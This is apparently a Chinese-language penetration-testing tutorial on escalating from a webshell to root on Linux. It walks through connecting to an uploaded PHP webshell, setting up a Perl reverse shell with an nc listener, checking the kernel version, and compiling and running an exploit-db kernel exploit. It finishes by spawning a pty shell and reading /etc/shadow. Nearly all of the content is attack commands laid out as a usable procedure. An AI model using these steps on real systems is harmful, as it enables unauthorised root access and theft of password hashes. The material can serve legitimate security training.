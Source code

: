 ## 1、简介

通常我们在拥有一个webshell的时候，一般权限都是WEB容器权限，如在iis就是iis用户组权限，在apache 就是apache权限，一般都是权限较低，均可执行一些普通命令，如查看当前用户，网络信息，ip信息等。如果我想进行内网渗透就必须将权限提权到最高，如系统权限 超级管理员权限。

## 2、创建交互shell

linux 提权需要交互shell 

可以使用工具perl-reverse-shell.pl 建立 sockets

http://www.webtester.com/upload/ac11b65c5a7fbb210b069f9c382c8fffmoon.php

菜刀连接

修改perl-reverse-shell.pl的端口及返回sockets主机

![image-20210426010445802](../../acess/image-20210426010445802.png) 

上传文件到目标服务器

本地使用nc 监听端口

```bash
nc -vvlp 1234 
```

 运行脚本获取交互shell

```bash
chmod +x perl-reverse-shell.pl
./perl-reverse-shell.pl
```

![image-20210426011635732](../../acess/image-20210426011635732.png)

## 3、查看发行版

```bash
cat /etc/issue
cat /etc/*release
```

查看内核版本

```bash
uname -a
```

## 4、查找可用的提权exp

https://www.exploit-db.com/

Linux moonteam-virtual-machine 3.19.0-15-generic #15-Ubuntu SMP Thu Apr 16 23:32:37 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

https://www.exploit-db.com/exploits/37292

## 5、进行提权

在目标机子编译提权exp 如果编译不成功在本地编译后在上传的目标上 

```bash
#编译
gcc exp.c  -o exp
#增加运行权限
chmod +x exp
#运行
./exp
```

![image-20210426013115225](../../acess/image-20210426013115225.png) 

当前用户从www-data提权到 root,切换shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

查询当前用户 id
查询密文文件

```bash
cat /etc/shadow
```

![image-20210426013334544](../../acess/image-20210426013334544.png) 
